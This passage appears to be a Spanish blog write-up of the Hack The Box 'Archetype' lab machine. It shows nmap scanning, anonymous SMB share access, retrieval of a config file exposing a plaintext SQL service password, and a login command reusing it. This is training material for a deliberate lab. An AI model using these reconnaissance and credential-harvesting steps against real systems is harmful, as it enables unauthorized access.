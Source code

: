 ```yaml
---
layout: post
title:  "Maquinas para empezar en HTB"
description: En esta ocasion empezaremos con los Writeups de las maquina de StartingPoint  de HackTheBox
tags: HTB, Empezando, Hacking, Starting
---
```


# Archetype ~ Hack The Box

Comprobamos que la maquina este activa con una traza ICMP, usamos la herramienta PING.
```bash
 "# ping -c 10 10.10.10.27"                                       
PING 10.10.10.27 (10.10.10.27) 56(84) bytes of data.
64 bytes from 10.10.10.27: icmp_seq=1 ttl=127 time=39.4 ms
64 bytes from 10.10.10.27: icmp_seq=2 ttl=127 time=39.5 ms
^C
--- 10.10.10.27 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 39.430/39.449/39.469/0.019 ms
```
La maquina esta activa y por el ttl identificamos que puede es WINDOWS

# Enumeracion con Nmap 

Procedemos a enumerar todos los puertos abiertos en un escaneo usando los siguiente parametros:

```bash
 "nmap -p- --open -T5 -v -n -Pn [IP VICTIMA]" 
```  
 Si en la maquina victima el escaneo con Nmap va lento..
 Usamos el siguiente escaneo:
 
```bash
 "nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn "[IP VICTIMA]" -oG allports"
```
Con la funcion de extractPorts: filtramos por los puertos abiertos pasandole el archivo de salida del primer escaneo con Nmap

```bash
"# extractPorts allports"

[*] Extracting information .......

        [*]IP ADDRESS: 10.10.10.27
        [*]OPEN PORTS: 135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669

```
 2.- Siguiente Escaneo con Nmap
 
Procedemos a escanear la version y servicios de los puerto encontrados como abiertos:

```bash
"nmap -sC -sV -p135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669 -oN Target 10.10.10.27"
```
Output:

```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
"445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds"
"1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM"
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-03-16T16:48:45
|_Not valid after:  2051-03-16T16:48:45
|_ssl-date: 2021-03-16T17:55:06+00:00; +17m25s from scanner time.
"5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)"
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
"47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)"
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h41m26s, deviation: 3h07m50s, median: 17m25s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-03-16T10:54:52-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-16T17:54:54
|_  start_date: N/A
```
Encontramos iformacion util para proseguir con las siguiente herramienta

Utilizamos la siguiente herramienta para ver si tenemos acceso al servicio samba sin proporcionar contraseña (-N) y ver si hay algun recurso disponible, descargarlo, subir algun archivo etc.
smbclient
```bash
"smbclient -N -L //10.10.10.27/"
   
   Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```
Idientificamos un directorio llamado BACKUPS al que podemos acceder sin contraseña:

```bash
"smbclient -N  //10.10.10.27/backups"
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020

                10328063 blocks of size 4096. 8255932 blocks available
smb: \> 
```
Listamos si hay algun archivo disponible dentro de "Backups". 
Probamos a descargar el archivo encontrado. 
Lo conseguimos descargar correctamente.

```bash
"smb: \> get prod.dtsConfig"
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0,7 KiloBytes/sec) (average 0,7 KiloBytes/sec)
```
Le cambiamos de nombre al archivo descargado:
```bash
mv prod.dtsConfig datos 
```
Leemos el archivo encontrado
```bash
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;"Password=M3g4c0rp123";User ID="ARCHETYPE\sql_svc";Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>   
```
mssqlclient.py

```bash
"mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth"
```
